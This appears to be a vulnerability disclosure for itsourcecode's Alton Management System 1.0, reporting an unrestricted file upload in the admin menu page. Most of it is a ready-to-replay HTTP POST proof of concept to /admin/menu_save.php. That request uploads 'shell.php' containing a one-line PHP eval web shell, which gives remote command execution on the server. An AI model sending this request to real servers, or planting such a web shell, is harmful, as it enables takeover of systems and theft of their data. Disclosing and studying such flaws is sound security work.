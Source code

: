 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in to the backend administrator account, access the "/admin/menu.php" page, add a menu option, and there is no strict filtering in the uploaded images, PHP files can be directly uploaded.
<img width="911" alt="image" src="https://github.com/user-attachments/assets/776894c0-eaac-4df3-9276-ef41c8824015">

# Poc
```
POST /admin/menu_save.php HTTP/1.1
Host: 192.168.17.24
Content-Length: 591
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.17.24
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZiHCNDLyEF0BsCXQ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.24/admin/menu.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: counter_date=24; my_lang=en; login_remember=0; member_perPage=30; member_sort=id%20desc; pdpa_consent=%7B%22accept%22%3A1%2C%22create_date%22%3A%222024-07-24%2016%3A04%3A19%22%7D; admin-menu=%7B%220%22%3A1%2C%221%22%3A1%2C%222%22%3A1%7D; curSection_template_options=%22shablon%22; 192.168.17.24-admin-files1=%7B%220%22%3A1%7D; sed5a3c60d7b93ebd48=MDpfOjA6XzpzeW1wZnk%3D; style=null; sedf49cfc2e14a6d706=MDpfOjA6XzpzeW1wZnk%3D; CONCRETE_LOGIN=1; PHPSESSID=m0khm20odq7l4oj4f5aca2q94p
Connection: close

------WebKitFormBoundaryZiHCNDLyEF0BsCXQ
Content-Disposition: form-data; name="menu"

DeeMirage
------WebKitFormBoundaryZiHCNDLyEF0BsCXQ
Content-Disposition: form-data; name="cat"

12
------WebKitFormBoundaryZiHCNDLyEF0BsCXQ
Content-Disposition: form-data; name="desc"

aa
------WebKitFormBoundaryZiHCNDLyEF0BsCXQ
Content-Disposition: form-data; name="price"

aaa
------WebKitFormBoundaryZiHCNDLyEF0BsCXQ
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: text/php

<?php eval($_POST["cmd"]);?>

------WebKitFormBoundaryZiHCNDLyEF0BsCXQ--

```

